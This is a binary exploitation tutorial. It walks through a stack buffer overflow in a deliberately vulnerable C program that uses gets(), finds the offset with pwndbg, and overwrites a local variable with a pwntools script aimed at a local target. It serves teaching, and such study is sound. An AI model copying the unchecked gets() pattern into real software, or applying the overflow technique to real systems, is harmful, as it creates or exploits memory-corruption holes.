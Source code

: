 ```yaml
---
description: 10/11/2023
cover: https://lparchive.org/ROM-Corruption-Megathread/Images/1-12z1X7C.gif
coverY: 0
---
```


# 🖊 Memory Corruption: Overwriting Local Variables

## Introduction

Did you know that you can overwrite local variables on the stack and change the program's logic?

Here, we'll be going over that!

## Target

`vuln.c`**:**

```c
// A binary exploitation demonstration focusing on overwriting local variables on the stack.

#include <stdio.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char *argv[])
{
    volatile int hackme;
    char buffer[100];

    puts("Can you overwrite the variable on the stack?\n");

    hackme = 0;
    gets(buffer);

    // if(strcmp(buffer, "0xDEADBEEF") == 0)
    if(hackme == 0xDEADBEEF)
    {
        printf("Access Granted, you changed the variable!\n");
        hackme = 0;
    }

    else
    {
        printf("Try harder!\n");
    }

    return 0;
}
```

### The Vulnerability

As you can see, we have a <mark style="color:yellow;">vulnerable</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`gets()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">function</mark> that will write our input into the buffer variable that is allocated for 100-bytes of data.

The reason `gets()` is vulnerable is because <mark style="color:yellow;">it performs zero checks for writing past the data length of 100-bytes</mark>.&#x20;

Ultimately allowing us to overflow the buffer, overwrite memory, and control the flow of execution.

### Compile

```
gcc vuln.c -o vuln -Q -g -fno-stack-protector -z execstack -no-pie
```

## Enumeration

#### `file`:

{% code overflow="wrap" %}
```
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=acd5e5a4a583c059d16b17798e2c5da129f27edb, for GNU/Linux 3.2.0, with debug_info, not stripped
```
{% endcode %}

#### `checksec`:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

## Dynamic Analysis w/ `pwndbg`

#### Load binary into `pwndbg`:

```
gdb vuln -q
```

* `-q` will load the symbols into the debugger and grant us access to the source code within the debugging window

#### Place a breakpoint on `main()` and run the binary:

```
b main
r
```

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption><p>Analyzing the binary in <code>pwndbg</code></p></figcaption></figure>

#### Generate a cyclic pattern of 200-bytes (because of our 100-byte buffer):

```
cyclic 200
```

* Copy the entire string

#### Run the program and send the pattern in as input:

```
c

Continuing.
Can you overwrite the variable on the stack?

aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
Try harder!
Program received signal SIGSEGV, Segmentation fault.
```

The program will seg fault.

<figure><img src="../.gitbook/assets/image (172).png" alt=""><figcaption><p>Seeing value of <code>RBP</code></p></figcaption></figure>

#### Obtain the offset of the overwritten `RBP` value:

```
cyclic -l oaaaaaaa
Finding cyclic pattern of 8 bytes: b'oaaaaaaa' (hex: 0x6f61616161616161)
Found at offset 112
```

<mark style="color:yellow;">Perfect, we now have our padding</mark>.

We want to actually utilize 108-bytes of junk data (`A`'s) here and then make the next 8-bytes `'0xDEADBEEF'` in little endian, `'\xEF\xBE\xAD\xDE'`.

#### Payload Structure:

```
[108-bytes of A's (Junk)] + [8-bytes for overwriting the variable: \xEF\xBE\xAD\xDE]
```

## Exploit Development

```python
from pwn import *

exe = ELF('./vuln')

# Uncomment one or the other for proper process startup -- local or debugger?
def conn():
    if args.LOCAL:  
        r = process([exe.path])                   # Just start the local process
        # r = gdb.debug([exe.path])                   # Open with pwndbg debugger
    else:
        r = remote("127.0.0.1", 9999)

    return r

def main():

    r = conn()

    padding = b'A'*108

    deadbeef = b'\xEF\xBE\xAD\xDE'

    payload = b''.join([
        padding,
        deadbeef
    ])

    print("payload:", payload)
    write("payload", payload)

    r.sendline(payload)

    r.interactive()

if __name__ == "__main__":
    main()
```

#### Automated Exploitation

```
python3 exploit.py LOCAL
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption><p>Obtaining the winning condition</p></figcaption></figure>

#### Manual Exploitation

#### With our payload being saved to a file named `payload`, we can manually pwn this binary:

```python
./vuln < payload
Can you overwrite the variable on the stack?

Access Granted, you changed the variable!
```
